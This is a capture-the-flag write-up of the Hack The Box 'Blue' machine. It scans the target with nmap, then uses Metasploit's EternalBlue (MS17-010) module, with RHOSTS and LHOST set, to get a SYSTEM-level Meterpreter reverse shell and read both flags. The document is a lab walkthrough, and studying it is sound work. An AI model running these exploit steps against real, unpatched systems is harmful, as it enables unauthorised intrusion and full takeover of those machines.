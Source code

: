 ```yaml
---
title: "Blue Write-Up"
date: 2025-08-06T12:25:28-05:00
draft: false
author: Jarpiano
tags:
    - WriteUp
image: /images/blue-banner.png
description:
toc:
center: true
---
```

# Blue (Easy) Box

Blue is an easy machine on HTB. It covers the MS17_010 exploit, also known as the `EternalBlue` exploit.

## Initial Foothold & Escalation

According to the description, this machine is vulnerable to the `EternalBlue` exploit. We need to make sure that at least the SMB port 445 is open. Let's use an NMAP scan to check what ports are open.

<img src="/images/blue-image1.png" width="900" alt="Preview Image" />
<br>
<br>

A quick service scan should give us some clues on the architecture and services available. We can use this command:

```bash
nmap 10.129.236.187 -p 135,139,445,49152,49153,49154,49155,49156,49157 -sV -A
```

This gives some important pieces of information. There are various RPC services on the higher order ports, SMB is open with message signing disabled, and the machine is running on Windows 7 architecture.

For the `EternalBlue` exploit, we can use the Metasploit Framework's `MSFConsole` to easily exploit it. Let's launch the console.

```bash
msfconsole -q
```

Now we can search for it:

```msfconsole
search eternalblue
```

We should get several exploits. Alright, the SMB user that we had was just a user, so I skipped over the `psexec` exploit. There is, however, a Windows 7 exploit available that's kernel level. Let's use that one.

<img src="/images/blue-image2.png" width="900" alt="Preview Image" />
<br>
<br>

Let's use that using:

``` msfconsole
use 2
```

We can set up the right options with:

```
set RHOSTS 10.129.236.187
set LHOST <MY-IP>
```

All the other defaults are good. We can run it with the `run` or `exploit` command.

It takes a while but we should get a Meterpreter shell. We can drop a shell in Meterpreter with the `shell` command.

If we type `whoami`, we get that we are `nt authority\system`. This should give us both the user and root flag then.

We can go to the `haris` desktop to find the `flag.txt` file. For the root flag, we can go to the `Administrator` desktop to find the `flag.txt` file.

And that's it! Happy hacking.

**Fin.**

